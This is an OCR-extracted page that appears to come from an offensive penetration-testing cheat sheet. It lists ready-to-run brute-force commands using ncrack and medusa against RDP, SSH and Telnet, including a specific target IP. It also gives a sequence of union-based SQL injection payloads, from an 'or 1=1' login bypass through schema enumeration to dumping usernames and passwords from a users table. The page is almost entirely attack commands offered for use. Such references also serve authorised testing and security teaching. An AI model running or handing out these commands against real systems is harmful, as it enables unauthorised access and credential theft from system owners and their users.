### Brute Force Techniques

RDP Brute

```
    ncrack -u administrator -P 500-worst-passwords.txt -p 3389 10.212.50.21
```

SSH Brute

```
    medusa -M ssh -C /usr/share/wordlists/ssh.lst -H 22.txt -T 10| grep SUCCESS |tee medusa-results.txt
```

Telnet Brute

```
    medusa -M telnet -C /usr/share/wordlists/telnet.lst -H 23.txt -T 10 -t 3| grep SUCCESS |tee medusa-results.txt
```

## Web Exploitation

### SQL

#### SQLi Examples

```
    secret' or 1=1 limit1;#
    #Find number of columns return by the Select statement
    ?id=738 order by 1,2,3,4...n until error is received

    #Use union select statement to append query to the original
    #union Select statement must have same number of columns as original Select statement
    ?id=738 union select 1,2,3,4,5,6

    #Get DB Version
    ?id=738 union select 1,2,3,4,@@version,6

    #Get DBUser
    ?id=738 union select 1,2,3,4,user(),6

    #Get tables from all databases
    ?id=738 union all select 1,2,3,4,table_name,6 FROM information_schema.tables

    #Get Table Columns
    ?id=738 union select 1,2,3,4,column_name,6 FROM information_schema.columns where table_name='users'

    #Get User passwords
    ?id=738 union select 1,2,3,4,concat(name,0x3a,password),6 FROM users
```

##### SQL Joins
